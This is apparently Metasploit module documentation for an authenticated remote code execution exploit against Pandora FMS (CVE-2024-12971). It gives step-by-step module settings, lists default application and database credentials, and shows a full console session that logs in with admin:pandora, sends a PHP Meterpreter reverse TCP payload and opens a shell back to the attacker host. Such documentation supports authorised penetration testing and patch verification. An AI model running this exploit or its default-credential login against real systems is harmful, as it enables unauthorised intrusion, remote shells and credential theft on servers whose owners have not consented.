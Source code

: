 ## Verification Steps
- [ ] Start `msfconsole`
- [ ] `use exploit/linux/http/linux/http/pandora_fms_auth_rce_cve_2024_12971`
- [ ] `set rhosts <ip-target>`
- [ ] `set rport <port>`
- [ ] `set lhost <attacker-ip>`
- [ ] `set target <0=PHP Command, 1=Unix/Linux Command, 2=Tiny Reverse Netcat Command>`
- [ ] `exploit`
- [ ] you should get a `reverse shell` or `Meterpreter` session depending on the `payload` and `target` settings

## Options

### USERNAME
This option is optional and is the username (default: admin) to authenticate with the Pandora FMS application.

### PASSWORD
This option is optional and is the password (default: pandora) in plain text to authenticate with the Pandora FMS application.

### DB_USER
This option is required and is the username (default: pandora) to authenticate with the Pandora FMS MySQL database.

### DB_PASSWORD
This option is required and is the password (default: Pandor4!) in plain text to authenticate with the Pandora FMS MySQL database.
Note: In older versions, this password is set to `pandora` during installation of the application.

### DB_PORT
This option is required and is the MySQL database port (default: 3306) to connect to the database.

## Scenarios
### Pandora FMS v7.0NG.777 on Ubuntu 22.04 -  PHP Command target
Attack scenario: use the default admin credentials (admin:pandora) of the Pandora FMS application
to gain the privileges for the RCE.
```msf
msf > use exploits/linux/http/pandora_fms_auth_rce_cve_2024_12971
[*] Using configured payload php/meterpreter/reverse_tcp
msf exploit(linux/http/pandora_fms_auth_rce_cve_2024_12971) > set rhosts 192.168.201.6
rhosts => 192.168.201.6
msf exploit(linux/http/pandora_fms_auth_rce_cve_2024_12971) > set lhost 192.168.201.8
lhost => 192.168.201.8
msf exploit(linux/http/pandora_fms_auth_rce_cve_2024_12971) > rexploit
[*] Reloading module...
[*] Started reverse TCP handler on 192.168.201.8:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Found chromium_path RCE. Pandora FMS version v7.0NG.777
[*] Trying to log in with admin credentials admin:pandora at the Pandora FMS Web application.
[*] Succesfully authenticated at the Pandora FMS Web application.
[*] Saving admin credentials at the msf database.
[*] Executing PHP Command for php/meterpreter/reverse_tcp
[*] Sending stage (40004 bytes) to 192.168.201.6
[*] Meterpreter session 1 opened (192.168.201.8:4444 -> 192.168.201.6:51714) at 2025-04-05 11:30:11 +0000
[+] Payload is successful removed from chromium_path path configuration.

```